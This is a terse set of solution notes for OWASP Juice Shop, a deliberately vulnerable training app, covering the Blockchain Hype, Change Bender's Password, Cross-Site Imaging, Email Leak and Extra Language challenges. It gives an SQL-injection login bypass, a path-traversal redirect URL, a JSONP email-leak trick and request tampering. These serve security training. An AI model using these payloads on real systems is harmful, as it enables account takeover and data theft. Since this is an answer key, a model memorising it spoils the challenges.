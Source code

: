 ## Blockchain Hype
- http://localhost:3000/#/tokensale-ico-ea

## Change Benders Password
- bender@juice-sh.op'--
- capture changing password
- delete 'current' 
- change new and repeated to the password 
- slurmCl4ssic

## Cross-Site Imaging
- http://localhost:3000/#/deluxe-membership?testDecal=..%2F..%2F..%2F..%2Fredirect%3Fto%3Dhttps:%2F%2Fplacekitten.com%2Fg%2F400%2F500%3Fx%3Dhttps:%2F%2Fgithub.com%2Fbkimminich%2Fjuice-shop

## Email leak
- capture a /rest/user/whoami
- remove the authorization parameter
- add ?callback=bender

## Extra Language
- intercept changing language
- change /assest/i18n/tlh_AA.json

